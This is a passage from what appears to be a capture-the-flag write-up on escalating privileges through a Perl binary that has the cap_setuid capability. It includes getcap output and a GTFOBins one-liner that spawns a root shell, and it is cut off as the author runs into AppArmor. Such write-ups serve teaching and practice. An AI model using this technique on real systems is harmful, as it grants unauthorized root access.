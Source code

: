     sub archive
    {
        printlog "Archiving...";
        system("/usr/bin/tar -zcf $tmpbdir/backup_$now.tar $backup_main/* 2>/dev/null");
        printlog "Backup complete in $tmpbdir/backup_$now.tar";
    }
    
    if ($> != 0) {
        die "You must run this script as root.\n";
    }
    
    printlog "Backup starts.";
    mkdir($tmpbdir);
    &archive;
    printlog "Moving $tmpbdir/backup_$now to /opt/web_backups";
    system("/usr/bin/mv $tmpbdir/backup_$now.tar /opt/web_backups/");
    printlog "Removing temporary directory";
    rmdir($tmpbdir);
    printlog "Completed";
    

But since only root can write to `/opt/web_backups`, it’s using
`POSIX::setuid(0)` to run as root.

To do this, it must either be SUID or have a capability. It has the `setuid`
capability:

    
    
    david@nunchucks:/opt$ which perl
    /usr/bin/perl
    david@nunchucks:/opt$ getcap /usr/bin/perl
    /usr/bin/perl = cap_setuid+ep
    

### AppArmor

#### GTFOBins Failure

There’s an entry for this on
[GTFObins](https://gtfobins.github.io/gtfobins/perl/#capabilities). I’ll just
use the one liner from there:

    
    
    david@nunchucks:~$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
    david@nunchucks:~$ 
    

For some reason it doesn’t return a root shell.

If I try `whoami`, it does return root:

    
    
    david@nunchucks:/etc/apparmor.d$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'
    root
    
